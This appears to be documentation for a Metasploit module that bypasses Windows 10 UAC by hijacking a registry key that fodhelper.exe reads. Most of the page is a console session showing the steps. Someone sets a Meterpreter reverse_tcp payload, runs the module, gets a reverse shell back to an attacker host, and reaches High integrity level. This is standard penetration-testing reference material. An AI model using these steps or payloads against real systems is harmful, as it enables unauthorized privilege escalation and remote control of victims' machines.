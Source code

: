 ## Intro

  This module will bypass Windows 10 UAC by hijacking a special key in the Registry under
  the current user hive, and inserting a custom command that will get invoked when
  the Windows fodhelper.exe application is launched. It will spawn a second shell that has the UAC
  flag turned off.

  This module modifies a registry key, but cleans up the key once the payload has
  been invoked.

  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting your
  payload in a separate process.

## Usage

  You'll first need to obtain a session on the target system.  
  Next, once the module is loaded, one simply needs to set the ```payload``` and ```session``` options.  
  

##Scenario

```
msf > 
[*] Sending stage (1189423 bytes) to 192.168.50.4
[*] Meterpreter session 11 opened (192.168.50.1:4444 -> 192.168.50.4:1654) at 2017-05-22 19:10:43 +0100

msf > sessions -i 11
[*] Starting interaction with 11...

meterpreter > shell
Process 9496 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\sasha\Desktop>whoami /all | findstr /C:"Mandatory Label"
whoami /all | findstr /C:"Mandatory Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192                                                                                     

C:\Users\sasha\Desktop>exit
exit
meterpreter > 
Background session 11? [y/N]  
msf > use exploit/windows/local/bypassuac_fodhelper 
msf exploit(bypassuac_fodhelper) > set SESSION 11
SESSION => 11
msf exploit(bypassuac_fodhelper) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(bypassuac_fodhelper) > set target 0
target => 0
msf exploit(bypassuac_fodhelper) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(bypassuac_fodhelper) > run

[*] Started reverse TCP handler on 192.168.50.1:4445 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\WINDOWS\system32\cmd.exe /c C:\WINDOWS\System32\fodhelper.exe
[*] Sending stage (957487 bytes) to 192.168.50.4
[*] Meterpreter session 12 opened (192.168.50.1:4445 -> 192.168.50.4:1655) at 2017-05-22 19:12:03 +0100
[*] Cleaining up registry keys ...

meterpreter > shell
Process 4076 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami /all | findstr /C:"Mandatory Label"
whoami /all | findstr /C:"Mandatory Label"
ERROR: Unable to get user claims information.
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288                                                                                                 

C:\WINDOWS\system32>

```
